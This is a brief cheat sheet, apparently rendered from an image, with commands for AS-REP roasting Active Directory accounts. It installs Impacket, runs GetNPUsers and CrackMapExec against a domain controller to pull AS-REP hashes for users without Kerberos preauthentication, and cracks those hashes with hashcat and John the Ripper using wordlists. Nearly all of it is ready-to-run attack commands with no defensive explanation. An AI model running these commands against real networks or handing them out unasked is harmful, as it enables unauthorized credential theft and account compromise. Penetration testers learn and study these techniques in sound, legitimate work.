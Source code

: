 ```yaml
---
legal-banner: true
---
```


### **USING IMPACKET GETNPUSERS.PY**

1.  Update the package list:  
    `sudo apt-get update`
2.  Install Impacket:  
    `sudo apt-get install python3-impacket`
3.  Enumerate Accounts:  
    `impacket-GetNPUsers -dc-ip [IP_ADDRESS] example.local/ -usersfile users.txt -no-pass -outputfile asrep_hashes.txt`
4.  Crack AS-REP Hashes using Hashcat:  
    `hashcat -m 18200 -a 0 asrep_hashes.txt /usr/share/wordlists/rockyou.txt`
5.  Crack AS-REP Hashes using John the Ripper:  
    `john --format=krb5asrep --wordlist=wordlist.txt asrep_hashes.txt`

### **USING CRACKMAPEXEC**

1.  Enumerate Accounts and Retrieve AS-REP Hashes:  
    `crackmapexec smb [IP_ADDRESS] -u users.txt --asreproast asrep_hashes.txt`